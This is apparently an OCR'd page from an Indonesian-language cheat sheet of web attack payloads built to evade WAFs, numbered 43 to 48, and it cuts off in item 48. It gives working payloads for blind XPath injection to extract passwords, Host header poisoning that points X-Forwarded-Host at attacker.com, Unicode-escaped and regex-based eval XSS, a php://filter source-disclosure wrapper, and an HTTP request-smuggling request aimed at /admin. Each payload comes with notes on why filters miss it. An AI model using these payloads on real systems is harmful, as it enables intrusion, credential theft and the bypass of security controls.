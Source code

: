 
### **🛡️ 43. Blind XPath Injection Attack**  
```xml
/users/user[username/text()='admin' and substring(password,1,1)='a']
```
**📌 Teknik:**  
✅ **XPath Injection** = Mengeksploitasi kueri XML untuk mendapatkan kredensial.  
✅ **Bypass WAF** karena mirip dengan kueri valid dan tidak selalu terdeteksi.  

---

### **🛡️ 44. Host Header Poisoning for SSRF**  
```http
GET / HTTP/1.1
Host: internal-api.com
X-Forwarded-Host: attacker.com
```
**📌 Teknik:**  
✅ **Host Header Injection** = Memanipulasi `X-Forwarded-Host` untuk mengakses API internal.  
✅ **Bypass WAF** dengan menyalahgunakan parsing header HTTP.  

---

### **🛡️ 45. JavaScript Unicode Escape XSS**  
```js
\u0065\u0076\u0061\u006c('alert(1)')
```
**📌 Teknik:**  
✅ **Unicode Escape XSS** = Menyembunyikan karakter berbahaya dalam Unicode.  
✅ **Bypass WAF** karena terlihat seperti teks biasa bagi filter sederhana.  

---

### **🛡️ 46. PHP Filter Chain Bypass for RCE**  
```php
php://filter/convert.base64-encode/resource=index.php
```
**📌 Teknik:**  
✅ **PHP Filter Chain** = Mengeksploitasi wrapper `php://filter` untuk membaca file.  
✅ **Bypass WAF** dengan eksploitasi fitur bawaan PHP.  

---

### **🛡️ 47. JavaScript RegEx-based Payload Execution**  
```js
eval(/alert(1)/.source)
```
**📌 Teknik:**  
✅ **RegEx-based Execution** = Menyembunyikan `alert(1)` dalam ekspresi reguler.  
✅ **Bypass WAF** dengan metode unik dalam eksekusi kode JavaScript.  

---

### **🛡️ 48. HTTP Smuggling with Content-Length Manipulation**  
```http
POST / HTTP/1.1
Host: victim.com
Content-Length: 50
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
```
**📌 Teknik:**  
